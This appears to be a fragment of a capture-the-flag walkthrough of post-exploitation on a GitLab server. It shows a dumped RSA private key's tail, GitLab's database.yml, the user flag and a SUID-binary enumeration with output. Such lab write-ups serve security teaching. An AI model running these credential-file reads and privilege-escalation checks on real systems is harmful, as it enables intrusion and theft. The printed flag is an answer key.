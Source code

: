     +f5gxzYmlWLOyNlOyHuCbqM9sR0GEJZci8nP/BzmbHgdwDwGwM45RwEg1skNfzU8
    EKpbigkjZQt7bQO+9Xky4EGUxKBkkQkgiw0w4Flwa+mrklKyvYl94upU0hSsLyRi
    sZSgidWOLovixuY2/aFSPV7tA2SE6REFVC9aCIvfDQiHYVcRRjeFXBakdj+htyYc
    TG5GqgkaIGg6Jybwg0+e/3vHLSEriIChAoIBADFghdUMhx5PCtu2tBKxdyhlGkJI
    Wr2U0K43gbUcsWDpoX3OoWhdzlPbTPRDIxrouA8KNAq0IWCI1OuPwatu8WxojDgD
    NLyoq74q0LmwVgLh0Nf0XpQyeSokvq8wEiguA/H8Mu+7Zuh0vUDGyRmuUdMQIDN+
    YaBfeaKyBq2xmJU67WKWn5fwNsgR4PRbvUz1uQEzc+6P4t8nDdiUDKEZdwXQy0Wf
    bhLhSXYB76eBER3LjTENMyDo0XD3NIvh25Ev8bcdeIA+eqDn8xTmGEX6GKEXgaRF
    BEtSwHoJcwgtd1RzOwyqB1lhDpWYoQK9KNJbVac1egscDh6MYD1oJSCay0E=
    -----END RSA PRIVATE KEY-----


cat ../etc/database.yml
# This file is managed by gitlab-ctl. Manual changes will be
# erased! To change the contents below, edit /etc/gitlab/gitlab.rb
# and run `sudo gitlab-ctl reconfigure`.

production:
  adapter: postgresql
  encoding: unicode
  collation: 
  database: gitlabhq_production
  pool: 10
  username: "gitlab"
  password: 
  host: "/var/opt/gitlab/postgresql"
  port: 5432
  socket: 
  sslmode: 
  sslcompression: 0
  sslrootcert: 
  sslca: 
  load_balancing: {"hosts":[]}
  prepared_statements: false
  statements_limit: 1000
  fdw: 


Then thought I would check if i can view the user.txt
cat /home/dude/user.txt

e1e30b052b6ec0670698805d745e7682



find / -type f -perm /+s -ls
   791689    420 -rwsr-xr-x   1 root     root       428240 Nov  5  2018 /usr/lib/openssh/ssh-keysign
   787508     28 -rwxr-sr-x   1 root     tty         27368 May 16  2018 /usr/bin/wall
   787357     76 -rwsr-xr-x   1 root     root        75304 May 16  2017 /usr/bin/gpasswd
   787415     56 -rwsr-xr-x   1 root     root        54256 May 16  2017 /usr/bin/passwd
   787344     24 -rwxr-sr-x   1 root     shadow      22768 May 16  2017 /usr/bin/expiry
   787311     40 -rwsr-xr-x   1 root     root        40432 May 16  2017 /usr/bin/chsh
   787306     64 -rwxr-sr-x   1 root     shadow      62336 May 16  2017 /usr/bin/chage
   787309     52 -rwsr-xr-x   1 root     root        49584 May 16  2017 /usr/bin/chfn
   787405     40 -rwsr-xr-x   1 root     root        39904 May 16  2017 /usr/bin/newgrp
   665037    352 -rwxr-sr-x   1 root     ssh        358624 Nov  5  2018 /usr/bin/ssh-agent
   787254     36 -rwxr-sr-x   1 root     shadow      35632 Apr  9  2018 /sbin/pam_extrausers_chkpwd
   787278     36 -rwxr-sr-x   1 root     shadow      35600 Apr  9  2018 /sbin/unix_chkpwd
   664078     40 -rwsr-xr-x   1 root     root        40152 May 16  2018 /bin/mount
   664112     28 -rwsr-xr-x   1 root     root        27608 May 16  2018 /bin/umount
   664096     40 -rwsr-xr-x   1 root     root        40128 May 16  2017 /bin/su